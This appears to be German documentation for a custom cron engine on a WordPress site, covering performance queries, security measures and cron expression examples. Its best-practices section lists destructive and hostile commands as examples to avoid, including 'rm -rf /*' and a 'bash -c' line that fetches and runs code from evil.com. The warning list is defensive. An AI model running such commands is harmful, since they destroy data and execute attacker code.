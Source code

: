 ### **Performance-Metriken:**
```bash
# CPU/Memory Usage der Engine
ps aux | grep cron_engine.py

# Anzahl aktiver Cron-Jobs
wp db query "SELECT COUNT(*) as active_jobs FROM stage_project_todos WHERE is_cron=1 AND is_cron_active=1"

# Erfolgs-Rate letzte 24h
wp db query "SELECT COUNT(*) as total, SUM(CASE WHEN cron_output NOT LIKE '%ERROR%' THEN 1 ELSE 0 END) as successful FROM stage_project_todos WHERE is_cron=1 AND updated_at > DATE_SUB(NOW(), INTERVAL 24 HOUR)"
```

---

## 🔐 SICHERHEIT & BEST PRACTICES

### **Sicherheitsmaßnahmen:**
- ✅ **User Isolation:** Cron läuft als `rodemkay` User (nicht root)
- ✅ **Command Validation:** Gefährliche Befehle werden geloggt
- ✅ **Timeout Protection:** Jobs haben 5-Minuten Timeout
- ✅ **Error Containment:** Fehler stoppen nicht die gesamte Engine
- ✅ **Log Rotation:** Automatische Log-Bereinigung

### **Best Practices:**
```bash
# ✅ GUTE Befehle (sicher, spezifisch):
wp db query "SELECT COUNT(*) FROM wp_posts"
curl -X GET https://api.example.com/status
echo "Status: OK" >> /tmp/status.log

# ❌ SCHLECHTE Befehle (vermeiden):
rm -rf /*                    # Gefährlich!
sudo systemctl restart *     # Root-Rechte
bash -c "$(curl evil.com)"   # Code-Injection
```

### **Arbeitsverzeichnis-Sicherheit:**
- Verwende **absolute Pfade** für kritische Operationen
- **Working Directory** immer explizit setzen
- **Keine temporären Downloads** in unsichere Verzeichnisse

---

## ⚡ ERWEITERTE FEATURES

### **1. Custom Cron Expressions:**
```bash
# Alle 30 Sekunden (für Testing)
*/30 * * * * *

# Werktags um 9:30 Uhr  
30 9 * * 1-5

# Jeden 1. und 15. des Monats
0 12 1,15 * *

# Alle 6 Stunden
0 */6 * * *
```
